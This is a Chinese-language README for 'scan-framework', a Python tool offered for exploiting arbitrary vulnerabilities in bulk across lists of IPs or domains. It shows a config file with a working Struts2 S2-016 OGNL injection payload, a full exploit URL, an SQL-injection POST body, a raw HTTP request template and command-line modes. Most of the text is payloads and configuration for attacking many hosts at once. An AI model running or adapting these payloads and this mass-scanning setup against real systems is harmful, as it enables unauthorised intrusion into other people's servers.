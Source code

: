 # scan-framework

------

scan-framework是一个漏洞批量利用扫描框架，只需要进行简单配置，就可以变成一个任意漏洞批量利用的工具，前提是你必须有漏洞的payload、扫描的IP或者域名列表。

你可以使用 scan-framework：

> * 进行GET方法的形式的漏洞批量扫描
> * 进行POST方法的形式的漏洞批量扫描
> * 进行Http原始报文的漏洞批量扫描

------

## 使用步骤

> * 确保收集一个有效的漏洞探测payload
> * 有一个待扫描的IP或者域名列表
> * 触发漏洞的页面中有代表漏洞探测成功的特征字符串
> * 会使用scan-framework的配置文件
> * 入口文件为cli.py 命令行参数-m

## 配置文件
配置文件位于工程中的conf文件夹下：
```
[main]
# 扫描为真的规则（支持正则）
scan_rule = hacker
# 扫描后收集结果的规则（支持正则）
res_rule = hacker
# 扫描使用的payload
payload = redirect:${%23p%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter(),%23p.println(%22hacker%22),%23p.close()}
# 使用raw方法，放置http报文的文件
raw_file = 
# 待扫描ip列表的文件
ip_file = c:\\ip.txt
#输出结果的文件
out_file = c:\\res.txt
# 开启的线程数
thread_num = 8
# 请求的方式
method = get
```
上面是一个典型的get方法的漏洞扫描的配置，其中特征字符串尾hacker，扫描中可以根据**scan_rule**判断是否存在漏洞，使用**res_rule**获取漏洞触发页面上的一些信息，这个两个选项支持正则匹配，你可以写入判断依据的正则表达式，scan-framework会使用它们进行爬取。

##两种扫描方式
**url**模式下，可以扫描如下形式的漏洞，比如S2-016漏洞：
```
http://127.0.0.1:8080/struts_hello/hello?redirect:${%23p%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter(),%23p.println(%22hacker%22),%23p.close()}
```
如果网站有漏洞，那么在页面上会显示出*hacker*字符串，只需要配置:
```
scan_rule = hacker
```
上面是一种get方式的漏洞扫描。
当method = post时，payload为POST数据包中请求体，如：
```
username=admin' and 1=1&password=xxss&login=1
```
**raw**模式下，要求配置文件中raw_file不为空，而是指定一个保存http请求报文的文件，文件中可能是下面的形式：
```
GET /code/test.php HTTP/1.1
Host: 127.0.0.1
Proxy-Connection: keep-alive
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/28.0.1500.95 Safari/537.36 SE 2.X MetaSr 1.0
Referer: http://127.0.0.1/code/
Accept-Encoding: gzip,deflate,sdch
Accept-Language: zh-CN,zh;q=0.8
Cookie: PHPSESSID=bv2n8m904ggt8nsi9istnm9fg7


```

##命令行参数
```
>python cli.py -h
Usage: cli.py [options]

Options:
  -h, --help            show this help message and exit
  -m MODE, --mode=MODE
```
选择相应的模式：
> * -m url 对应URL模式
> * -m raw 对应RAW模式

##Bug反馈
请联系：
exploitcat@foxmail.com

